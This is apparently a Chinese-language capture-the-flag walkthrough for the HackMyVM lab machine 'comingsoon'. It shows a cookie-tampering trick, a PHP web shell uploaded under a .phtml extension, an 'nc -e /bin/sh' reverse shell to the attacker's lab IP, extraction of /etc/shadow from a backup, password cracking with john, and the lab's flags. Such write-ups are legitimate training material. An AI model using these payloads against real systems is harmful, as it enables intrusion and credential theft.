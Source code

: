 刚开始没有IP
单用户修改密码也需要输入用户密码，不能改
/boot/grub/grub.cfg配置文件下
```c
### BEGIN /etc/grub.d/00_header ###
set superusers="root"
password_pbkdf2 root grub.pbkdf2.sha512.10000.ACE3E31954E3E55AB9AB407CA8B6BC9D336B7376733F6B38DB1A2588CE98B6720458284C9C7C5B3AF79BB87046C0770269EF488A0090DF03FA738BCA0FAACD44.3367FD2518DDAC951F14DC7133D015542E0DA317473B41318DA591F20B01FEEBA368C09DA4E079297EDAC83B04445A014984418397306D48A4A5D033BE196B6C
```
看了wp，才知道root用户密码ToyStory3，进去后也没有dhclient命令获取ip
只能换一种方式，编辑vim /etc/network/interface
[Linux(Debian)网卡设置\_debian auto eth0-CSDN博客](https://blog.csdn.net/willhuo/article/details/79610260)

|   |   |   |
|---|---|---|
|comingsoon|easy|前端分析、文件上传绕过、提示信息利用、shadow 爆破、hydra 使用、|

# 主机发现
```C
sudo netdiscover -i eth0 -r 192.168.44.133/24
┌──(kali㉿kali)-[~]
└─$ fping -aqg 192.168.44.0/24
```
# 服务探测
```C
sudo nmap -sV -A -T 4 -p- 192.168.44.137
```
只有22和80
# 目录爆破
```C
http://192.168.44.137/notes.txt
Dave,

Last few jobs to do...

Set ssh to use keys only (passphrase same as the password)

Just need to sort the images out:
resize and scp them or using the built-in image uploader.

Test the backups and delete anything not needed.

Apply an https certificate.

Cheers,

Webdev

翻译

戴夫，

最后几项工作要做...

将 ssh 设置为仅使用密钥（密码与密码相同）

只需要对图像进行排序：
调整大小并对其进行 scp 或使用内置图像上传器。

测试备份并删除不需要的任何内容。

申请https证书。

干杯，

网络开发者


http://192.168.44.137/index.php
右键检查源码看到提示

 Upload images link if EnableUploader set 
 翻译
 如果设置了 EnableUploader，则上传图像链接

```


检查当前页面的cookie信息，发现base64编码的东西
```css
RW5hYmxlVXBsb2FkZXIK 
ZmFsc2UK
解码后
EnableUploader
false
```

综上所述，把false改成true编码后`dHJ1ZQ==`，就会出现文件上传的入口
http://192.168.44.137/5df03f95b4ff4f4b5dabe53a5a1e15d7.php
burp抓包,这里后端使用黑名单限制了php后缀的上传，尝试使用phtml后缀被解析成功。

```
POST /5df03f95b4ff4f4b5dabe53a5a1e15d7.php HTTP/1.1
Host: 192.168.44.137
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------30594177056923721121592264423
Content-Length: 379
Origin: http://192.168.44.137
Connection: close
Referer: http://192.168.44.137/5df03f95b4ff4f4b5dabe53a5a1e15d7.php
Cookie: RW5hYmxlVXBsb2FkZXIK=dHJ1ZQ==
Upgrade-Insecure-Requests: 1

-----------------------------30594177056923721121592264423
Content-Disposition: form-data; name="fileToUpload"; filename="1.phtml"
Content-Type: image/png
<?php system($_GET['cmd']);?>
-----------------------------30594177056923721121592264423
Content-Disposition: form-data; name="submit"

Upload Image
-----------------------------30594177056923721121592264423--
```

命令执行
```c
http://192.168.44.137/assets/img/1.phtml?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

# nc反弹shell
```css
http://192.168.44.137/assets/img/1.phtml?cmd=nc -e /bin/sh 192.168.44.128 9001
```

```c
python3 -c 'import pty;pty.spawn("/bin/bash")'
或者
script /dev/null -c bash
export TERM=xterm
Ctrl+z快捷键
stty raw -echo;fg
reset
```

# 提权
目前看啥都没权限
只有/var/backups/目录下有个备份文件backup.tar.gz有用
```css
www-data@comingsoon:/var/backups$ cp backup.tar.gz /tmp
www-data@comingsoon:/tmp$ tar -zxvf backup.tar.gz
www-data@comingsoon:/tmp$ cat etc/shadow
```

```c
root:$y$j9T$/E0VUDL7uS9RsrvwmGcOH0$LEB/7ERUX9bkm646n3v3RJBxttSVWmTBvs2tUjKe9I6:18976:0:99999:7:::
scpuser:$y$j9T$rVt3bxjp6uYKKYJbYU2Zq0$Ysn02LrCwTUB7iQdRiROO7/WQi8JSGtwLZllR54iX0.:18976:0:99999:7:::
```
爆破
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ john -w=../rockyou.txt comningsoon --format=crypt 

tigger           (scpuser)  
```
切换用户
```c
www-data@comingsoon:/home$ su scpuser //tigger

scpuser@comingsoon:~$ cat user.txt
cat user.txt
HMV{user:comingsoon.hmv:58842fc1a7}

```
查看老密码
```c
scpuser@comingsoon:~$ cat .oldpasswords
cat .oldpasswords
Previous root passwords just incase they are needed for a backup\restore

Incredibles2
Paddington2
BigHero6
101Dalmations

```
参考这个链接才知道老密码的用处,原来密码是带有数字的动画电影名字：

https://28right.blogspot.com/2021/12/hackmyvm-comingsoon.html
生成单词列表
```css
curl https://www.rottentomatoes.com/top/bestofrt/top_100_animation_movies/|grep ")</a>"|sed 's/[(].*$//'|tr -d ' '> wordlist
```

应该上面的链接已经失效了，也知道思路了。这里就直接拿别人的密码登录了。

```
root:ToyStory3
```

```c
root@comingsoon:~# cat root.txt
cat root.txt
HMV{root:comingsoon.hmv:2339dc81ca}

```